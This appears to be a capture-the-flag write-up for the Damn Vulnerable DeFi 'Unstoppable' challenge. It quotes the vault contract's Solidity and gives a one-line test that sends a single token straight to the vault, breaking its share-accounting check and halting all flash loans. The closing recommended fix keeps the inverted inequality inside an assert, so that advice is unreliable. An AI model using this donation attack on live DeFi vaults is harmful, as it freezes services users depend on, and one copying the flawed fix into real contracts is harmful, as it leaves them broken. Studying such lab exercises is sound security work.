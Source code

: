 # Damnvulnerabledefi - UnstoppableVault

<img width="1416" alt="스크린샷 2024-09-16 오후 10 43 23" src="https://github.com/user-attachments/assets/6cf309ee-1ba8-419d-b89e-5020d59d41f6">

According to the readme we should stop the flashloan service. 
First, let's look at unstoppablevault.sol. 
The code for an unstoppable vault is shown below.

``` solidity
    function maxFlashLoan(address _token) public view nonReadReentrant returns (uint256) {
        if (address(asset) != _token) {
            return 0;
        }

        return totalAssets();
    }
```

First, the function of maxFlashLoan. maxFlashLoan is function of type public, view, modifier "nonReadReentrant".
max FlashLoan function is returns data type of uint256.
the totalAssets function is returns the total amount of underlying assets held by the vault.


``` solidity
    function flashFee(address _token, uint256 _amount) public view returns (uint256 fee) {
        if (address(asset) != _token) {
            revert UnsupportedCurrency();
        }

        if (block.timestamp < end && _amount < maxFlashLoan(_token)) {
            return 0;
        } else {
            return _amount.mulWadUp(FEE_FACTOR);
        }
    }
```

next function is flashFee. the flashFee is function of type public, view. and input parameter is address, uint256. 
the asset is pointed ERC20 token. so, if argument _token does not matched with ERC20 address the transaction is revert.

``` solidity
function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);
        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```

next, is flashLoan function. Looking at line 4, if covertToShares(totalSupply) and balanceBefore are not equal, it will revert. the balanceBefore variables is updated by return value of the function totalAssets. but, totalSupply is global variables is defind by ERC20 contract, updated deposit function flow for _mint.

``` solidity
function deposit(uint256 assets, address receiver) public virtual returns (uint256 shares) {
        // Check for rounding error since we round down in previewDeposit.
        require((shares = previewDeposit(assets)) != 0, "ZERO_SHARES");

        // Need to transfer before minting or ERC777s could reenter.
        asset.safeTransferFrom(msg.sender, address(this), assets);

        _mint(receiver, shares);

        emit Deposit(msg.sender, receiver, assets, shares);

        afterDeposit(assets, shares);
    }

    function _mint(address to, uint256 amount) internal virtual {
        totalSupply += amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(address(0), to, amount);
    }

```
we're using ERC20 transfer function and send token to vault, it could be updated balanceBefore. but totalSupply isn't. then, we can stop flashloan service.

``` solidity
    function test_unstoppable() public checkSolvedByPlayer {
        console.log("before totalAssets: ", vault.totalAssets());
        token.transfer(address(vault), 1);
        console.log("after totalAssets", vault.totalAssets());
    }
```

# result
![스크린샷 2024-09-20 오전 1 07 54](https://github.com/user-attachments/assets/e1feef37-fc2e-49d1-80d1-5b0159a5b1cf)

# Recommendations
``` solidity
        - if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement // shares : DVT
        + assert(convertToShares(totalSupply) != balanceBefore);
```

